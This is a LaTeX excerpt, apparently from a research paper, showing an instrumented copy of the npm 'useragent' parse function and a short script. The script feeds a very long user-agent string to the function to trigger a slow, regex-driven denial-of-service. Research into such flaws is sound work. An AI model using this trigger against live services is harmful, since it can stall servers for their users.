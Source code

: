\documentclass[authoryear,preprint]{sigplanconf}
\begin{document}
\begin{lstlisting}[caption=Code Instrumentation,label=l:parse,language=Java]

/**
 * Parses the user agent string with the generated parsers from the
 * ua-parser project on google code.
 *
 * @param {String} userAgent The user agent string
 * @param {String} [jsAgent] Optional UA from js to detect chrome frame
 * @returns {Agent}
 * @api public
 */
var process = require('process');
var precision = 3;
exports.parse = function parse(userAgent, jsAgent) {
    var start = process.hrtime();
  if (!userAgent || !isSafe(userAgent)) return new Agent();

  var length = agentparserslength
    , parsers = agentparsers
    , i = 0
    , parser
    , res;

  for (; i < length; i++) {
    if (res = parsers[i][0].exec(userAgent)) {
      parser = parsers[i];

      if (parser[1]) res[1] = parser[1].replace('$1', res[1]);
      if (!jsAgent) return new Agent(
          res[1]
        , parser[2] || res[2]
        , parser[3] || res[3]
        , parser[4] || res[4]
        , userAgent
      );

      break;
    }

      var elapsed = process.hrtime(start)[1] / 1000000;
      console.log(process.hrtime(start)[0] + " s, " + elapsed.toFixed(precision) + " ms - " );
  }

\end{lstlisting}



\subsection{Manually Triggering Identified Vulnerable Function}

A random test script of length  \begin{math}10^{4} \end{math} was provided as an input to a parse function and it took approximately 7 seconds to execute the method as shown in listing \ref{l:test} below:

\begin{lstlisting}[caption=Manual Triggering of vulnerable function in npm module useragent,label=l:test,language=Java]

var useragent = require('useragent');
useragent(true);
var req = {}
var string = ''
for(var i=0; i< Math.pow(10,4); i++){
    string += i + " ";
}

req.headers = {'user-agent': string}
req.query = {'jsuseragent':'ok'}
var agent2 = useragent.parse(req.headers['user-agent'], req.query.jsuseragent);

\end{lstlisting}
\end{document}
